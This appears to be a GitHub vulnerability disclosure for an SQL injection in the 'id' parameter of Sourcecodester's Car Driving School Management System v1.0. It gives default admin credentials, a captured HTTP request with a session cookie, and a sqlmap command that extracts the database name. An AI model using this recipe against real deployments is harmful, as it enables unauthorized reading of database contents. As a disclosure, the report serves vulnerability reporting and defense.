

### SQL injection vulnerability exists in Sourcecodester Car Driving School Management System

official website:https://www.sourcecodester.com/php/15070/car-driving-school-management-system-phpoop-free-source-code.html

version:v1.0

route:/cdsms/admin/?page=enrollees/view_details&id=2

related code file:view_details.php

injection parameter:$_GET['id']

#### 1.Vulnerability analysis

After receiving the id parameter passed in through the get method in the view_details.php file, it is directly spliced into the SQL query statement for execution without any security filtering. An attacker can use this parameter to perform SQL injection to read arbitrary database information.


#### 2.Vulnerability verification and exploit

After admin/admin123 logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.Note that you need to modify the deployed IP address, port, and cookie information in the data packet according to the environment.

```
GET /cdsms/admin/?page=enrollees/view_details&id=2 HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1721700678; PHPSESSID=32r6u9afm833p0abeg632sl4id
Connection: close

```

python sqlmap.py -r 1.txt --batch --current-db



Successfully obtained the injected payload and database name.